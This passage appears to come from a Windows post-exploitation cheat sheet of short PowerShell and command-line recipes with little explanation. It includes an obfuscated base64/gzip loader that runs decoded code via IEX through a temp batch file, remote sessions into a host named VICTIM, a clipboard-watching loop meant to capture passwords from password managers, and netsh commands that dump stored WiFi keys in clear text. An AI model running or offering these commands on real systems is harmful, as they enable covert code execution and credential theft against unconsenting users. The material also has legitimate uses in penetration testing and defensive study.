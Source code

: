 ```

```
cmd.exe /c powershell "'powershell ""$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String(''... Base64 string ...''));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
'""| out-file -filepath %tmp%\tmp9388.bat -encoding ascii; cmd /c '%tmp%\tmp9388.bat'
```

## Enable PowerShell Remoting:

Tip Provided By Joshua Wright:

By default, Windows Server 2012R2 and later have PowerShell remote access turned on by default. Windows 10 and Windows 11 systems have this feature turned off by default. To turn on PowerShell remote access, an administrator can run the ```Enable-PSRemoting``` command:

```
PS C:\WINDOWS\system32> Enable-PSRemoting
```

With the appropriate permissions, remote access to PowerShell is straightforward: run Enter-PSSession and specify the target host name or IP address using -ComputerName:

```
PS C:\WINDOWS\system32> Enter-PSSession -ComputerName VICTIM
[VICTIM]: PS C:\Users\Victim\Documents>
```

When you are done with your PowerShell remote session, run ```Exit-PSSession``` to return to your host system.

## PowerShell Password Manager and Clipboard Access:

Password managers offer many benefits for selection and storage of passwords.

```
PS C:\> $x=""; while($true) { $y=get-clipboard -raw; if ($x -ne $y) { Write-Host $y; $x=$y} }
```

## PowerShell List Named Pipes:

```
ls \\.\pipe\
```

To run using ```cmd.exe```:

```
dir \\.\pipe\\
```

## Python LM Hash Generation:

```
python -c 'from passlib.hash import lmhash;print lmhash.hash("password")'
```

## Discovering WiFi Passwords:

```
netsh wlan show profiles
```

```
netsh wlan show profile name="SSID" key=clear
```
```